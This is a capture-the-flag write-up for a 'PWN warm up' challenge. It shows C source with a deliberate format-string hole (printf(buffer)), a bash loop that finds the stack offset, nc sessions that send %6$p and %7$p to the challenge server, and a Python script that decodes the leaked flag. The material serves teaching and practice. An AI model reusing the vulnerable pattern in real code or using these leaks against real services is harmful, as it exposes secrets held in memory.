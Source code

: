 # PWN warm up

**_Format String + Memory Leak_**

This challenge involves a binary vulnerable to format string exploitation. The binary loads a `flag` file into memory before handling user input, which is directly printed using a format string vulnerability.

## Source Code Analysis

Here is the source code for the binary (chall.c):

```c
//gcc -fno-pie -no-pie -fno-stack-protector ./chall.c -o chall
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

void vuln()
{
    char buffer[16];
    char flag[16];
    FILE *file = fopen("./flag", "r");
    if (file == NULL) {
        perror("Error opening ./flag");
        return;
    }
    fscanf(file, "%15s", flag);

    printf("u give input, i print out your input\n");
    printf("Input: ");
    fgets(buffer, sizeof(buffer), stdin);
    printf("Your input is: ");
    printf(buffer);  // Vulnerable line
    return;
}

int main()
{
    initialize();

    vuln();
    return 0;
}
```

### Vulnerability Details

- **Format String Vulnerability**: The `printf(buffer);` call in the `vuln()` function directly prints user input without specifying a format string. This allows attackers to exploit format string specifiers like `%p` to leak memory addresses or other sensitive data.
- **Flag Handling**: The `flag` is read into a stack buffer (`flag[16]`) before user input is processed. This means the flag resides in memory and can potentially be leaked through the vulnerability.

## Exploitation Steps

### Step 1: Confirm Format String Vulnerability

To test the format string vulnerability, initially, an error occurs due to the absence of the `flag` file:

```bash
┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ ./chall 
Error opening ./flag: No such file or directory
```

To proceed, a dummy flag file is placed in the same directory:

```bash
┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ echo "FLAG" > flag  

┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ cat flag 
FLAG
```

Running the binary and providing `%p` as input confirms the vulnerability:

```bash
./chall
Input: %p %p %p %p %p
Your input is: 0x7ffe02d61b60 (nil) (nil) 0x1 (nil)
```

### Step 2: Find Format String Offset

To determine the correct offset for the format string vulnerability, a script (`findOffset.sh`) can be used:

```bash
#!/bin/bash

for i in $(seq 100)
do
    echo "Offset $i : %$i\$p" | ./chall
done
```

Running this script reveals the flag's offset. For instance:

```bash
┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ ./findOffset.sh | grep "47414c46"
Input: Your input is: Offset 6 : 0x47414c46 u give input, i print out your input
```

The result shows the flag's hex representation (e.g., `47414c46` for `FLAG`, reversed due to little-endianness). The first 8 bytes of the flag are at offset 6, and the next 8 bytes are at offset 7.

### Step 3: Leak the Full Flag

Using the determined offsets, the full flag can be reconstructed. For example:

```bash
┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ nc 5.75.155.50 10001
u give input, i print out your input
Input: %6$p
Your input is: 0x726f667b554c5343

┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ nc 5.75.155.50 10001
u give input, i print out your input
Input: %7$p        
Your input is: 0x7d72747374346d
```

Then, use Python to convert and reverse the bytes:

```python
import struct
flag_part1 = struct.pack("<Q", 0x726f667b554c5343).decode()
flag_part2 = struct.pack("<Q", 0x7d72747374346d).decode()  # Replace with the next leak
flag = flag_part1 + flag_part2
print(flag)
```

Result:

```bash
┌──(kali㉿kali)-[~/CSLU/PWN1]
└─$ python3 hexToBytes_FlipLittleEndianness.py
CSLU{form4tstr}
```

## Conclusion

By leveraging the format string vulnerability, we successfully leaked the flag stored in the stack. This challenge demonstrates the importance of using secure coding practices, such as always specifying format strings explicitly in functions like `printf`. Let me know if there are additional details to refine or expand!
